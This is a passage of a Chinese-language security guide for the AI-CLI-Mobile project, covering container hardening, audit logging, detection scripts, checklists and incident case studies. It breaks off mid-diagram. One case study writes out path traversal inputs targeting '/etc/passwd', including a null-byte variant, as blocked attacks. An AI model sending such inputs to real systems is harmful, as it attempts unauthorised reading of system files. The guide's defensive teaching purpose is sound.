        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

## 6.5 WSS（WebSocket Secure）

WSS 是 WebSocket 的加密版本，类似于 HTTPS 之于 HTTP。

### WS vs WSS

```mermaid
graph LR
    subgraph WS["❌ WS（不安全）"]
        W1["ws://example.com/ws"]
        W2["数据明文传输"]
        W3["容易被窃听和篡改"]
    end

    subgraph WSS["✅ WSS（安全）"]
        WS1["wss://example.com/ws"]
        WS2["数据加密传输"]
        WS3["TLS 保护"]
    end

    style WS fill:#ffcdd2,stroke:#c62828
    style WSS fill:#c8e6c9,stroke:#2e7d32
```

### WSS 连接流程

```mermaid
sequenceDiagram
    participant C as 客户端
    participant N as Nginx
    participant S as AI-CLI-Mobile Server

    C->>N: wss://example.com/ws/terminal?token=xxx
    Note over C,N: TLS 握手
    N->>S: ws://localhost:3000/ws/terminal?token=xxx
    Note over N,S: 内部通信（可选加密）
    S-->>N: WebSocket 升级成功
    N-->>C: WebSocket 连接建立

    Note over C,S: === 加密的 WebSocket 通信 ===
    C->>S: 加密数据
    S-->>C: 加密数据
```

> 💡 **AI-CLI-Mobile 的建议**：在生产环境中，使用 Nginx 作为反向代理处理 TLS 终止，内部使用 WS 连接。这样可以减轻应用服务器的 TLS 计算负担。

---

# 第七章：容器安全

## 7.1 容器安全概览

容器安全涉及镜像安全、运行时安全、网络安全和编排安全等多个层面。

### 容器安全全景图

```mermaid
graph TB
    subgraph 容器安全["容器安全"]
        subgraph 镜像["镜像安全"]
            I1["基础镜像选择"]
            I2["镜像扫描"]
            I3["最小化镜像"]
            I4["签名验证"]
        end

        subgraph 运行时["运行时安全"]
            R1["非 root 运行"]
            R2["只读文件系统"]
            R3["Seccomp 配置"]
            R4["Capabilities 限制"]
        end

        subgraph 网络["网络安全"]
            N1["网络隔离"]
            N2["端口限制"]
            N3["TLS 加密"]
        end

        subgraph 编排["编排安全"]
            O1["资源限制"]
            O2["健康检查"]
            O3["密钥管理"]
        end
    end

    style 镜像 fill:#e3f2fd,stroke:#1565c0
    style 运行时 fill:#e8f5e9,stroke:#2e7d32
    style 网络 fill:#fff3e0,stroke:#e65100
    style 编排 fill:#f3e5f5,stroke:#6a1b9a
```

## 7.2 Docker 安全最佳实践

### Dockerfile 安全编写规范

```mermaid
graph TB
    subgraph 规范["Dockerfile 安全规范"]
        D1["1. 使用官方/可信基础镜像"]
        D2["2. 固定镜像版本标签"]
        D3["3. 合并 RUN 减少层数"]
        D4["4. 不安装不必要的包"]
        D5["5. 使用非 root 用户"]
        D6["6. 使用 .dockerignore"]
        D7["7. 多阶段构建"]
        D8["8. 不在镜像中存储密钥"]
    end

    style D1 fill:#e8f5e9,stroke:#2e7d32
    style D2 fill:#e8f5e9,stroke:#2e7d32
    style D3 fill:#e8f5e9,stroke:#2e7d32
    style D4 fill:#e8f5e9,stroke:#2e7d32
    style D5 fill:#e8f5e9,stroke:#2e7d32
    style D6 fill:#e8f5e9,stroke:#2e7d32
    style D7 fill:#e8f5e9,stroke:#2e7d32
    style D8 fill:#e8f5e9,stroke:#2e7d32
```

### 镜像版本固定

```dockerfile
# ❌ 危险：使用 latest 标签
FROM node:latest

# ✅ 安全：固定版本
FROM node:22.12.0-alpine3.20

# ✅✅ 最安全：使用 SHA256 摘要
FROM node:22.12.0-alpine3.20@sha256:abc123...
```

### 多阶段构建

```dockerfile
# 阶段 1：构建
FROM node:22-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production
COPY . .
RUN npm run build

# 阶段 2：运行（最小镜像）
FROM node:22-alpine AS runner
WORKDIR /app
# 只复制必要的文件
COPY --from=builder /app/dist ./dist
COPY --from=builder /app/node_modules ./node_modules
COPY --from=builder /app/package.json ./

# 使用非 root 用户
USER node

CMD ["node", "dist/index.js"]
```

## 7.3 Seccomp 配置

Seccomp（Secure Computing Mode）是 Linux 内核的安全特性，限制进程可以使用的系统调用。

### 系统调用分类

```mermaid
graph TB
    subgraph 系统调用["Linux 系统调用分类"]
        subgraph 安全["✅ 安全的"]
            S1["read, write"]
            S2["open, close"]
            S3["mmap, munmap"]
            S4["getpid, getuid"]
        end

        subgraph 危险["⚠️ 危险的"]
            D1["mount, umount"]
            D2["reboot"]
            D3["kexec_load"]
            D4["ptrace"]
        end

        subgraph 受限["🔒 需要限制的"]
            R1["socket, bind, listen"]
            R2["clone, fork"]
            R3["chown, chmod"]
        end
    end

    style 安全 fill:#c8e6c9,stroke:#2e7d32
    style 危险 fill:#ffcdd2,stroke:#c62828
    style 受限 fill:#fff9c4,stroke:#f57f17
```

### Seccomp 配置示例

```json
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "architectures": ["SCMP_ARCH_X86_64"],
  "syscalls": [
    {
      "names": [
        "read", "write", "open", "close", "stat", "fstat",
        "mmap", "mprotect", "munmap", "brk", "ioctl",
        "access", "pipe", "select", "sched_yield",
        "getpid", "getuid", "getgid", "geteuid", "getegid"
      ],
      "action": "SCMP_ACT_ALLOW"
    }
  ]
}
```

### Docker 中使用 Seccomp

```bash
# 使用自定义 Seccomp 配置
docker run --security-opt seccomp=custom-profile.json myapp

# 使用默认 Seccomp 配置（Docker 默认）
docker run myapp

# 禁用 Seccomp（不推荐）
docker run --security-opt seccomp=unconfined myapp
```

## 7.4 Linux Capabilities

Linux Capabilities 将 root 权限细分为多个独立的权限单元。

### 常见 Capabilities

| Capability | 作用 | 安全风险 |
|-----------|------|---------|
| `CAP_NET_BIND_SERVICE` | 绑定 1024 以下端口 | 低 |
| `CAP_NET_RAW` | 使用原始套接字 | 中（可用于网络嗅探） |
| `CAP_SYS_ADMIN` | 大量系统管理操作 | 高（几乎等于 root） |
| `CAP_SYS_PTRACE` | 跟踪其他进程 | 高（可读取其他进程内存） |
| `CAP_DAC_OVERRIDE` | 绕过文件权限检查 | 高 |
| `CAP_CHOWN` | 修改文件所有者 | 中 |
| `CAP_SETUID` | 切换用户 ID | 中 |

### Docker Capabilities 管理

```bash
# Docker 默认赋予的 Capabilities
docker run --rm alpine cat /proc/1/status | grep Cap

# 移除所有 Capabilities，只添加需要的
docker run \
  --cap-drop=ALL \
  --cap-add=NET_BIND_SERVICE \
  --cap-add=CHOWN \
  myapp

# 查看容器的 Capabilities
docker inspect --format='{{.HostConfig.CapAdd}}' container_name
```

```mermaid
graph LR
    subgraph 原则["最小权限原则"]
        A["默认：移除所有<br/>--cap-drop=ALL"]
        B["按需添加<br/>--cap-add=XXX"]
    end

    A --> B

    style A fill:#ffcdd2,stroke:#c62828
    style B fill:#c8e6c9,stroke:#2e7d32
```

## 7.5 非 root 用户运行

### 为什么不能用 root 运行容器？

```mermaid
graph TB
    subgraph root容器["❌ 以 root 运行容器"]
        R1["容器漏洞被利用"]
        R2["攻击者获得 root 权限"]
        R3["可能逃逸到宿主机"]
        R4["控制整个宿主机！"]
    end

    subgraph 非root容器["✅ 以非 root 运行"]
        N1["容器漏洞被利用"]
        N2["攻击者只有普通用户权限"]
        N3["无法修改系统文件"]
        N4["攻击面大大缩小"]
    end

    root容器 -->|"后果严重"| R4
    非root容器 -->|"影响有限"| N4

    style root容器 fill:#ffcdd2,stroke:#c62828
    style 非root容器 fill:#c8e6c9,stroke:#2e7d32
```

### 实现方式

```dockerfile
# 方式 1：使用 USER 指令
FROM node:22-alpine
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
USER appuser

# 方式 2：使用 node 用户（Node.js 官方镜像自带）
FROM node:22-alpine
USER node

# 方式 3：Docker 运行时指定
# docker run --user 1000:1000 myapp
```

## 7.6 项目中的 Docker 安全配置

### Docker Compose 安全配置

```yaml
# 文件：docker/docker-compose.yml

services:
  ai-cli-mobile:
    image: ai-cli-mobile:latest
    build:
      context: ..
      dockerfile: docker/Dockerfile

    # 安全配置
    security_opt:
      - no-new-privileges:true    # 禁止提权
    read_only: true                # 只读文件系统
    tmpfs:
      - /tmp                      # 临时文件用 tmpfs

    # 资源限制
    deploy:
      resources:
        limits:
          cpus: '1.0'
          memory: 512M
        reservations:
          cpus: '0.5'
          memory: 256M

    # 端口映射
    ports:
      - "3000:3000"

    # 环境变量（不要硬编码密钥）
    environment:
      - JWT_SECRET=${JWT_SECRET}
      - JWT_REFRESH_SECRET=${JWT_REFRESH_SECRET}
      - ADMIN_PASSWORD=${ADMIN_PASSWORD}

    # 健康检查
    healthcheck:
      test: ["CMD", "wget", "--no-verbose", "--tries=1", "--spider", "http://localhost:3000/health"]
      interval: 30s
      timeout: 10s
      retries: 3
      start_period: 10s

    # 重启策略
    restart: unless-stopped

    # 日志限制
    logging:
      driver: json-file
      options:
        max-size: "10m"
        max-file: "3"
```

### Dockerfile 安全实践

```dockerfile
# 文件：docker/Dockerfile

# === 构建阶段 ===
FROM node:22-alpine AS builder
WORKDIR /app
COPY package.json pnpm-lock.yaml ./
RUN corepack enable && pnpm install --frozen-lockfile
COPY . .
RUN pnpm build

# === 运行阶段 ===
FROM node:22-alpine AS runner
WORKDIR /app

# 安全：只复制必要文件
COPY --from=builder /app/apps/server/dist ./dist
COPY --from=builder /app/node_modules ./node_modules
COPY --from=builder /app/packages/shared/dist ./shared
COPY --from=builder /app/package.json ./

# 安全：设置合理的文件权限
RUN chown -R node:node /app

# 安全：使用非 root 用户
USER node

# 安全：暴露最小端口
EXPOSE 3000

# 健康检查
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD wget --no-verbose --tries=1 --spider http://localhost:3000/health || exit 1

CMD ["node", "dist/index.js"]
```

### 容器安全检查清单

```mermaid
graph TB
    subgraph 检查清单["Docker 安全检查清单"]
        C1["✅ 基础镜像：使用官方 Alpine"]
        C2["✅ 版本固定：不使用 latest"]
        C3["✅ 多阶段构建：最小化镜像"]
        C4["✅ 非 root 用户：USER node"]
        C5["✅ 只读文件系统：read_only: true"]
        C6["✅ 禁止提权：no-new-privileges"]
        C7["✅ 资源限制：CPU 和内存"]
        C8["✅ 密钥管理：环境变量注入"]
        C9["✅ 日志限制：防止磁盘爆满"]
        C10["✅ 健康检查：自动恢复"]
    end

    style 检查清单 fill:#e8f5e9,stroke:#2e7d32
```

---

# 第八章：安全审计

## 8.1 审计日志的重要性

审计日志是安全体系的"黑匣子"，记录了系统中发生的所有重要事件。

### 审计日志的作用

```mermaid
graph TB
    subgraph 作用["审计日志的作用"]
        A1["🔍 事件溯源<br/>追踪安全事件的来龙去脉"]
        A2["🚨 入侵检测<br/>发现异常行为模式"]
        A3["📊 合规证明<br/>满足法规和标准要求"]
        A4["🔧 故障排查<br/>定位系统问题"]
        A5["⚖️ 责任认定<br/>确定操作责任人"]
    end

    style A1 fill:#e3f2fd,stroke:#1565c0
    style A2 fill:#ffcdd2,stroke:#c62828
    style A3 fill:#e8f5e9,stroke:#2e7d32
    style A4 fill:#fff3e0,stroke:#e65100
    style A5 fill:#f3e5f5,stroke:#6a1b9a
```

### 应该记录什么？

| 事件类型 | 记录内容 | 重要性 |
|---------|---------|--------|
| **认证事件** | 登录成功/失败、Token 刷新 | ⭐⭐⭐⭐⭐ |
| **授权事件** | 权限检查成功/失败 | ⭐⭐⭐⭐⭐ |
| **数据访问** | 文件读取/写入 | ⭐⭐⭐⭐ |
| **用户管理** | 创建/删除/修改用户 | ⭐⭐⭐⭐⭐ |
| **系统事件** | 服务启动/停止/配置变更 | ⭐⭐⭐⭐ |
| **安全事件** | 攻击检测、异常行为 | ⭐⭐⭐⭐⭐ |

## 8.2 审计日志设计

### 日志格式

```mermaid
graph LR
    subgraph 日志条目["审计日志条目"]
        T["timestamp<br/>时间戳"]
        E["event<br/>事件类型"]
        U["userId<br/>操作者"]
        D["details<br/>详细信息"]
    end

    T --> J["JSON 格式"]
    E --> J
    U --> J
    D --> J

    J --> F["写入文件"]

    style 日志条目 fill:#e3f2fd,stroke:#1565c0
```

### 日志条目示例

```json
{
  "timestamp": "2024-01-15T10:30:45.123Z",
  "event": "LOGIN",
  "userId": "abc-123-def",
  "details": {
    "username": "alice",
    "ip": "192.168.1.100"
  }
}
```

```json
{
  "timestamp": "2024-01-15T10:31:02.456Z",
  "event": "LOGIN_FAILED",
  "userId": null,
  "details": {
    "username": "admin",
    "reason": "user not found",
    "ip": "10.0.0.50"
  }
}
```

```json
{
  "timestamp": "2024-01-15T10:32:15.789Z",
  "event": "FILE_WRITE_BLOCKED",
  "userId": "abc-123-def",
  "details": {
    "path": "malware.exe",
    "ext": ".exe"
  }
}
```

## 8.3 项目中的审计系统

### 审计事件类型

```typescript
// 文件：apps/server/src/core/audit.ts

export type AuditEvent =
  | 'LOGIN'                // 登录成功
  | 'LOGIN_FAILED'         // 登录失败
  | 'LOGOUT'               // 登出
  | 'SESSION_CREATE'       // 创建会话
  | 'SESSION_DESTROY'      // 销毁会话
  | 'FILE_READ'            // 读取文件
  | 'FILE_WRITE'           // 写入文件
  | 'FILE_WRITE_BLOCKED'   // 写入被阻止（危险文件类型）
  | 'WS_CONNECT'           // WebSocket 连接
  | 'WS_DISCONNECT'        // WebSocket 断开
  | 'USER_LIST'            // 查看用户列表
  | 'USER_CREATE'          // 创建用户
  | 'USER_DELETE'          // 删除用户
  | 'USER_PASSWORD_CHANGE' // 修改密码
```

### 审计日志实现

```typescript
// 文件：apps/server/src/core/audit.ts

import { createWriteStream, WriteStream } from 'fs'
import path from 'path'

function getAuditLogPath(): string {
  return path.join(getConfig().PROJECT_ROOT, '.audit.log')
}

// 使用流式写入，避免阻塞事件循环
let stream: WriteStream | null = null

function getStream(): WriteStream {
  if (!stream) {
    stream = createWriteStream(getAuditLogPath(), { flags: 'a' })
    stream.on('error', (err) => {
      pinoLogger.error({ err }, 'Audit log stream error')
      stream?.destroy()
      stream = null  // 下次调用会创建新流
    })
  }
  return stream
}

export function auditLog(
  event: AuditEvent,
  userId?: string,
  details?: Record<string, unknown>
): void {
  const entry = {
    timestamp: new Date().toISOString(),
    event,
    userId: userId ?? null,
    details: details ?? null,
  }

  const line = JSON.stringify(entry) + '\n'

  try {
    const ok = getStream().write(line)
    if (!ok) {
      // 背压：缓冲区满了，记录警告
      pinoLogger.warn('Audit log write returned false (backpressure)')
    }
  } catch (err) {
    pinoLogger.error({ err }, 'Failed to write audit log')
    // 销毁当前流，下次重建
    stream?.destroy()
    stream = null
    try {
      getStream().write(line)  // 重试
    } catch (retryErr) {
      pinoLogger.error({ err: retryErr }, 'Audit log retry also failed')
    }
  }
}

// 服务关闭时优雅关闭审计日志流
export function closeAuditLog(): Promise<void> {
  return new Promise((resolve) => {
    if (stream) {
      stream.end(() => {
        stream = null
        resolve()
      })
    } else {
      resolve()
    }
  })
}
```

### 实现亮点分析

```mermaid
graph TB
    subgraph 亮点["审计系统设计亮点"]
        L1["✅ 异步流式写入<br/>使用 createWriteStream<br/>不阻塞事件循环"]
        L2["✅ 背压处理<br/>缓冲区满时记录警告<br/>不丢失日志"]
        L3["✅ 错误恢复<br/>流出错时自动重建<br/>重试写入"]
        L4["✅ 优雅关闭<br/>服务停止时刷新缓冲区<br/>不丢失日志"]
        L5["✅ JSON 格式<br/>结构化日志<br/>便于分析和查询"]
        L6["✅ 丰富事件类型<br/>覆盖认证、授权、<br/>文件操作、用户管理"]
    end

    style L1 fill:#e8f5e9,stroke:#2e7d32
    style L2 fill:#e8f5e9,stroke:#2e7d32
    style L3 fill:#e8f5e9,stroke:#2e7d32
    style L4 fill:#e8f5e9,stroke:#2e7d32
    style L5 fill:#e8f5e9,stroke:#2e7d32
    style L6 fill:#e8f5e9,stroke:#2e7d32
```

### 审计日志在各模块中的使用

```mermaid
graph TB
    subgraph 模块["使用审计日志的模块"]
        Auth["auth.ts<br/>登录/登出/用户管理"]
        Fs["fs.ts<br/>文件读写"]
        Session["SessionManager.ts<br/>会话管理"]
        WSGateway["WSGateway.ts<br/>WebSocket 连接"]
    end

    Auth -->|"LOGIN, LOGIN_FAILED<br/>USER_CREATE, USER_DELETE<br/>USER_PASSWORD_CHANGE"| Audit["audit.ts"]
    Fs -->|"FILE_READ, FILE_WRITE<br/>FILE_WRITE_BLOCKED"| Audit
    Session -->|"SESSION_CREATE<br/>SESSION_DESTROY"| Audit
    WSGateway -->|"WS_CONNECT<br/>WS_DISCONNECT"| Audit

    Audit --> LogFile[".audit.log"]

    style Auth fill:#e3f2fd,stroke:#1565c0
    style Fs fill:#e8f5e9,stroke:#2e7d32
    style Session fill:#fff3e0,stroke:#e65100
    style WSGateway fill:#f3e5f5,stroke:#6a1b9a
    style Audit fill:#ffcdd2,stroke:#c62828
```

### 审计日志使用示例

```typescript
// 登录失败记录
auditLog('LOGIN_FAILED', undefined, {
  username,
  reason: 'user not found',
  ip: request.ip
})

// 登录成功记录
auditLog('LOGIN', user.userId, {
  username,
  ip: request.ip
})

// 文件写入被阻止
auditLog('FILE_WRITE_BLOCKED', request.user?.userId, {
  path: relativePath,
  ext
})

// 文件读取记录
auditLog('FILE_READ', request.user?.userId, {
  path: relativePath
})

// 用户创建记录
auditLog('USER_CREATE', request.user!.userId, {
  createdUser: username
})

// 密码修改记录
auditLog('USER_PASSWORD_CHANGE', request.user!.userId, {
  targetUser: username
})
```

## 8.4 安全事件响应

### 安全事件响应流程

```mermaid
graph TB
    subgraph 响应流程["安全事件响应流程"]
        D["1. 检测 Detection<br/>通过审计日志发现异常"]
        A["2. 分析 Analysis<br/>确定事件性质和影响"]
        C["3. 遏制 Containment<br/>限制事件影响范围"]
        E["4. 消除 Eradication<br/>修复漏洞"]
        R["5. 恢复 Recovery<br/>恢复正常运营"]
        L["6. 总结 Lessons<br/>更新安全措施"]
    end

    D --> A --> C --> E --> R --> L

    style D fill:#ffcdd2,stroke:#c62828
    style A fill:#fff3e0,stroke:#e65100
    style C fill:#fff9c4,stroke:#f57f17
    style E fill:#e8f5e9,stroke:#2e7d32
    style R fill:#c8e6c9,stroke:#2e7d32
    style L fill:#e3f2fd,stroke:#1565c0
```

### 异常行为检测

```mermaid
graph TB
    subgraph 异常["可检测的异常行为"]
        A1["短时间内大量登录失败<br/>→ 暴力破解攻击"]
        A2["非常用 IP 登录<br/>→ 账号可能被盗"]
        A3["非常用时间操作<br/>→ 异常行为"]
        A4["大量文件读取<br/>→ 数据泄露"]
        A5["尝试写入危险文件<br/>→ 恶意攻击"]
        A6["频繁的路径遍历尝试<br/>→ 攻击探测"]
    end

    style A1 fill:#ffcdd2,stroke:#c62828
    style A2 fill:#ffcdd2,stroke:#c62828
    style A3 fill:#fff9c4,stroke:#f57f17
    style A4 fill:#fff9c4,stroke:#f57f17
    style A5 fill:#ffcdd2,stroke:#c62828
    style A6 fill:#ffcdd2,stroke:#c62828
```

### 检测脚本示例

```bash
#!/bin/bash
# 检测暴力破解攻击：1分钟内登录失败超过10次的 IP

AUDIT_LOG=".audit.log"

echo "=== 暴力破解检测 ==="
grep 'LOGIN_FAILED' "$AUDIT_LOG" \
  | jq -r '.details.ip' \
  | sort | uniq -c | sort -rn \
  | awk '$1 > 10 {print "⚠️  疑似暴力破解:", $2, "失败次数:", $1}'

echo ""
echo "=== 危险文件写入尝试 ==="
grep 'FILE_WRITE_BLOCKED' "$AUDIT_LOG" \
  | jq -r '[.timestamp, .details.path, .details.ext] | @tsv'

echo ""
echo "=== 路径遍历尝试 ==="
grep '"error":"Path traversal detected"' "$AUDIT_LOG" \
  | jq -r '[.timestamp, .userId] | @tsv'
```

## 8.5 合规性考虑

### 常见安全标准

| 标准 | 适用范围 | 核心要求 |
|------|---------|---------|
| **GDPR** | 欧盟用户数据 | 数据最小化、用户同意、数据可移植 |
| **SOC 2** | 云服务商 | 安全性、可用性、机密性 |
| **ISO 27001** | 通用 | 信息安全管理体系 |
| **PCI DSS** | 支付卡数据 | 加密、访问控制、审计 |
| **等保 2.0** | 中国信息系统 | 分级保护、安全审计 |

### 审计日志的合规要求

```mermaid
graph TB
    subgraph 合规["审计日志合规要求"]
        R1["完整性<br/>日志不能被篡改"]
        R2["保留期<br/>至少保留6个月-1年"]
        R3["访问控制<br/>只有授权人员能查看"]
        R4["时钟同步<br/>所有服务器时间一致"]
        R5["完整性校验<br/>使用哈希或签名"]
    end

    style R1 fill:#e8f5e9,stroke:#2e7d32
    style R2 fill:#e8f5e9,stroke:#2e7d32
    style R3 fill:#e8f5e9,stroke:#2e7d32
    style R4 fill:#e8f5e9,stroke:#2e7d32
    style R5 fill:#e8f5e9,stroke:#2e7d32
```

### 项目安全架构总结

```mermaid
graph TB
    subgraph 全景["AI-CLI-Mobile 安全架构全景"]
        subgraph 认证层["认证层"]
            A1["JWT 双令牌机制"]
            A2["bcrypt 密码哈希"]
            A3["速率限制"]
        end

        subgraph 授权层["授权层"]
            B1["管理员/用户角色"]
            B2["会话归属检查"]
            B3["路径遍历防御"]
        end

        subgraph 传输层["传输层"]
            C1["WSS 加密通信"]
            C2["HTTPS 配置"]
            C3["安全响应头"]
        end

        subgraph 容器层["容器层"]
            D1["非 root 运行"]
            D2["只读文件系统"]
            D3["资源限制"]
        end

        subgraph 审计层["审计层"]
            E1["全量审计日志"]
            E2["异常检测"]
            E3["事件响应"]
        end

        认证层 --> 授权层
        授权层 --> 容器层
        传输层 -.-> 认证层
        审计层 -.-> 认证层
        审计层 -.-> 授权层
    end

    style 认证层 fill:#e3f2fd,stroke:#1565c0
    style 授权层 fill:#e8f5e9,stroke:#2e7d32
    style 传输层 fill:#fff3e0,stroke:#e65100
    style 容器层 fill:#f3e5f5,stroke:#6a1b9a
    style 审计层 fill:#ffcdd2,stroke:#c62828
```

---

# 附录 A：安全开发检查清单

## A.1 认证安全检查清单

```mermaid
graph TB
    subgraph 认证清单["认证安全检查清单"]
        C1["✅ 密码使用 bcrypt/argon2 哈希"]
        C2["✅ 密码最小长度 >= 8 位"]
        C3["✅ JWT 使用 HS256/RS256"]
        C4["✅ JWT 设置合理过期时间"]
        C5["✅ Access Token + Refresh Token"]
        C6["✅ 不同密钥签发不同 Token"]
        C7["✅ 登录失败统一错误消息"]
        C8["✅ 登录速率限制"]
        C9["✅ 记录所有登录事件"]
        C10["✅ WebSocket 认证检查"]
    end

    style 认证清单 fill:#e8f5e9,stroke:#2e7d32
```

## A.2 输入验证检查清单

```mermaid
graph TB
    subgraph 输入清单["输入验证检查清单"]
        V1["✅ 所有用户输入都验证"]
        V2["✅ 路径遍历防护"]
        V3["✅ Null 字节检查"]
        V4["✅ 文件大小限制"]
        V5["✅ 危险文件类型过滤"]
        V6["✅ 用户名格式校验"]
        V7["✅ 密码长度校验"]
        V8["✅ JSON Schema 验证"]
        V9["✅ Content-Type 检查"]
        V10["✅ 请求体大小限制"]
    end

    style 输入清单 fill:#e3f2fd,stroke:#1565c0
```

## A.3 传输安全检查清单

```mermaid
graph TB
    subgraph 传输清单["传输安全检查清单"]
        T1["✅ 强制 HTTPS"]
        T2["✅ HSTS 启用"]
        T3["✅ TLS 1.2+"]
        T4["✅ 强加密套件"]
        T5["✅ WSS 用于 WebSocket"]
        T6["✅ 安全响应头"]
        T7["✅ CORS 配置正确"]
        T8["✅ 证书自动续期"]
    end

    style 传输清单 fill:#fff3e0,stroke:#e65100
```

## A.4 容器安全检查清单

```mermaid
graph TB
    subgraph 容器清单["容器安全检查清单"]
        D1["✅ 官方基础镜像"]
        D2["✅ 镜像版本固定"]
        D3["✅ 多阶段构建"]
        D4["✅ 非 root 用户"]
        D5["✅ 只读文件系统"]
        D6["✅ 禁止提权"]
        D7["✅ 资源限制"]
        D8["✅ 健康检查"]
        D9["✅ 密钥不硬编码"]
        D10["✅ 日志大小限制"]
    end

    style 容器清单 fill:#f3e5f5,stroke:#6a1b9a
```

---

# 附录 B：常见安全漏洞速查表

## B.1 OWASP Top 10（2021）

| 排名 | 漏洞类型 | 说明 | 项目防护 |
|------|---------|------|--------|
| A01 | 访问控制失效 | 权限检查不当 | ✅ RBAC + 归属检查 |
| A02 | 加密机制失败 | 弱加密或未加密 | ✅ bcrypt + JWT + WSS |
| A03 | 注入 | SQL/NoSQL/OS 注入 | ✅ 无 SQL，路径遍历防护 |
| A04 | 不安全设计 | 架构级安全缺陷 | ✅ 威胁建模 + 审计 |
| A05 | 安全配置错误 | 默认配置不安全 | ✅ Helmet + 安全头 |
| A06 | 脆弱过时组件 | 使用有漏洞的依赖 | ⚠️ 需要定期更新 |
| A07 | 身份认证失败 | 认证实现缺陷 | ✅ JWT + bcrypt |
| A08 | 软件和数据完整性失败 | 未验证完整性 | ✅ JWT 签名 |
| A09 | 安全日志和监控失败 | 缺少审计 | ✅ 审计日志系统 |
| A10 | 服务端请求伪造 | SSRF | ✅ 无外部请求代理 |

## B.2 安全响应头速查

| 响应头 | 作用 | 推荐值 |
|--------|------|--------|
| `Strict-Transport-Security` | 强制 HTTPS | `max-age=31536000; includeSubDomains` |
| `X-Content-Type-Options` | 防止 MIME 嗅探 | `nosniff` |
| `X-Frame-Options` | 防止点击劫持 | `DENY` |
| `X-XSS-Protection` | XSS 过滤（旧浏览器） | `0`（用 CSP 替代） |
| `Content-Security-Policy` | 限制资源来源 | 按需配置 |
| `Referrer-Policy` | 控制 Referer 信息 | `strict-origin-when-cross-origin` |
| `Permissions-Policy` | 限制浏览器功能 | `camera=(), microphone=()` |
| `Cross-Origin-Opener-Policy` | 防止跨域窗口访问 | `same-origin` |
| `Cross-Origin-Resource-Policy` | 限制跨域资源加载 | `same-origin` |

## B.3 常见 HTTP 安全状态码

| 状态码 | 含义 | 使用场景 |
|--------|------|--------|
| 400 | Bad Request | 参数验证失败 |
| 401 | Unauthorized | 未认证（Token 缺失/无效） |
| 403 | Forbidden | 无权限（认证成功但授权失败） |
| 404 | Not Found | 资源不存在 |
| 409 | Conflict | 资源冲突（如用户名已存在） |
| 413 | Payload Too Large | 请求体过大 |
| 429 | Too Many Requests | 速率限制 |
| 500 | Internal Server Error | 服务器内部错误 |

---

# 附录 C：安全工具推荐

## C.1 静态分析工具

| 工具 | 语言 | 用途 | 特点 |
|------|------|------|------|
| **ESLint + security plugins** | JavaScript/TypeScript | 代码安全检查 | 集成到 CI |
| **Semgrep** | 多语言 | 模式匹配检测 | 自定义规则 |
| **SonarQube** | 多语言 | 代码质量和安全 | 全面扫描 |
| **npm audit** | Node.js | 依赖漏洞扫描 | 内置 npm |
| **Snyk** | 多语言 | 依赖漏洞扫描 | 持续监控 |

## C.2 动态分析工具

| 工具 | 用途 | 特点 |
|------|------|------|
| **OWASP ZAP** | Web 应用安全测试 | 开源，功能全面 |
| **Burp Suite** | Web 应用安全测试 | 专业级 |
| **Nmap** | 网络扫描 | 端口和服务发现 |
| **sqlmap** | SQL 注入检测 | 自动化测试 |
| **nikto** | Web 服务器扫描 | 已知漏洞检测 |

## C.3 容器安全工具

| 工具 | 用途 | 特点 |
|------|------|------|
| **Trivy** | 镜像漏洞扫描 | 快速，支持多语言 |
| **Docker Scout** | 镜像安全分析 | Docker 官方 |
| **Grype** | 镜像漏洞扫描 | Anchore 出品 |
| **Hadolint** | Dockerfile 检查 | 最佳实践检查 |
| **Falco** | 运行时安全 | 异常行为检测 |

## C.4 安全测试脚本

```bash
#!/bin/bash
# 安全测试脚本

echo "=== 1. 检查 npm 依赖漏洞 ==="
npm audit --production

echo ""
echo "=== 2. 检查 Docker 镜像漏洞 ==="
trivy image ai-cli-mobile:latest

echo ""
echo "=== 3. 检查 Dockerfile 最佳实践 ==="
hadolint docker/Dockerfile

echo ""
echo "=== 4. 检查安全响应头 ==="
curl -sI https://your-domain.com | grep -E '(Strict-Transport|X-Content-Type|X-Frame|Content-Security)'

echo ""
echo "=== 5. 检查 TLS 配置 ==="
sslscan your-domain.com

echo ""
echo "=== 6. 运行安全测试 ==="
npm run test:security
```

---

# 附录 D：安全事件案例分析

## D.1 案例：暴力破解攻击

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器
    participant Log as 审计日志

    loop 每秒多次尝试
        A->>S: POST /login {username: admin, password: xxx}
        S->>Log: LOGIN_FAILED {reason: invalid password}
        S-->>A: 401 Invalid credentials
    end

    Note over S: 速率限制触发：429 Too Many Requests
    A->>S: POST /login
    S-->>A: 429 Too Many Requests

    Note over Log: 审计日志显示：<br/>同一 IP 5分钟内 > 100 次失败
    Log->>S: 告警：疑似暴力破解
```

**防御措施：**
1. 登录速率限制（每分钟5次）
2. 失败次数过多后临时封禁 IP
3. 使用强密码策略
4. 多因素认证（MFA）

## D.2 案例：路径遍历攻击

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器
    participant Log as 审计日志

    A->>S: GET /api/fs/file?path=../../../etc/passwd
    S->>S: sanitizePath() 检测到路径遍历
    S->>Log: 记录攻击尝试
    S-->>A: 403 Path traversal detected

    A->>S: GET /api/fs/file?path=/etc/passwd
    S->>S: sanitizePath() 检测到绝对路径
    S->>Log: 记录攻击尝试
    S-->>A: 403 Path traversal detected

    A->>S: GET /api/fs/file?path=secret.txt%00.jpg
    S->>S: sanitizePath() 检测到 Null 字节
    S->>Log: 记录攻击尝试
    S-->>A: 403 Path traversal detected

    Note over S: 所有攻击都被成功防御
```

**防御措施：**
1. `sanitizePath()` 多层验证
2. Null 字节检查
3. 路径前缀检查
4. 符号链接解析后再次检查

## D.3 案例：Token 泄露

```mermaid
graph TB
    subgraph 场景["Token 泄露场景"]
        S1["XSS 攻击窃取 Token"]
        S2["日志中记录了 Token"]
        S3["网络嗅探获取 Token"]
        S4["客户端存储不安全"]
    end

    subgraph 影响["影响"]
        I1["攻击者可以冒充用户"]
        I2["有效期 15 分钟内可操作"]
    end

    subgraph 防御["防御措施"]
        D1["使用 HttpOnly Cookie"]
        D2["不在日志中记录 Token"]
        D3["强制 HTTPS"]
        D4["短过期时间 + Refresh Token"]
